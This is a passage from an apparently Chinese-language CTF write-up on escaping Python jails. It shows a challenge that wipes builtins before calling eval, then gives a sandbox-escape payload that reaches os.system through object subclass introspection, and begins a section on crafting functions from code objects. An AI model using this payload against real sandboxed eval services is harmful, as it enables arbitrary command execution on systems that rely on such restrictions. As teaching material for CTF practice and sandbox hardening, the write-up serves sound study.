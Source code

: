 ```python
backup_eval = eval
backup_input = input
backup_print = print

__builtins__.__dict__.clear()


def check_eval():
    a = backup_input('try os.system("cmd")!')
    try:
        backup_eval(a, {}, {})
        backup_print('SUCCESS!')
    except:
        backup_print('ERROR!')
        pass


check_eval()
```

代码总结如下：

```python
payload = ''.__class__.__mro__[1].__subclasses__()[142].__init__.__globals__['system']('cmd')
```

## 04_codeobject

如果有额外的限制，比如nobuiltins环境下"s"的个数，那么之前的方法就失效了，还有什么利用python机制的方法吗？

答案是有的。既然python函数也是对象，那我能否通过函数的内部机制来凭空构造出一个函数？答案是可以的。例如我们之前如果定义函数为`f`：

当我们调用函数时执行的代码由`__code__`定义：

```python
def f():
    ''.__class__.__mro__[1].__subclasses__()[142].__init__.__globals__['system']('cmd')


print(f.__code__)
print(dir(f.__code__))
```

会得到以下结果，可以看到code也是一个对象：

```plaintext
<code object f at 0x00000281D42A2E20, file "D:\misc\Pycharm\ctf\pwn\pyjail\01.py", line 1>

['__class__', '__delattr__', '__dir__', '__doc__', '__eq__',
 '__format__', '__ge__', '__getattribute__', '__getstate__', '__gt__',
 '__hash__', '__init__', '__init_subclass__', '__le__', '__lt__',
 '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__',
 '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '_co_code_adaptive',
 '_varname_from_oparg', 'co_argcount', 'co_cellvars', 'co_code', 'co_consts',
 'co_exceptiontable', 'co_filename', 'co_firstlineno', 'co_flags', 'co_freevars',
 'co_kwonlyargcount', 'co_lines', 'co_linetable', 'co_lnotab', 'co_name',
 'co_names', 'co_nlocals', 'co_positions', 'co_posonlyargcount', 'co_qualname',
 'co_stacksize', 'co_varnames', 'replace']
```
